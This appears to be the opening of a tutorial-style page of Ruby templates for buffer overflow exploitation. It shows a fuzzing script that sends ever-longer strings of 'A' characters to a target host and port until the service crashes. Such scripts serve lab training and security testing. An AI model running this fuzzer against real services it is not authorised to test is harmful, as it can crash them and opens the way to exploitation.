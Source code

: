 
### Ruby Templates for BOF

There are different stages of BOF and we'll have different scripts for each stage:

### Spiking & Fuzzing
```Ruby
require 'socket'

buff = "A" * 100
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

begin
    while true
        s = TCPSocket.open(RHOST, RPORT)
        s.puts buff + '\r\n'
        s.close
        sleep 1
        buffSize = buff.size
        buff += "A" * 100
    end
rescue Interrupt
    puts "Debugger crashed at #{buffSize} bytes"
end
```
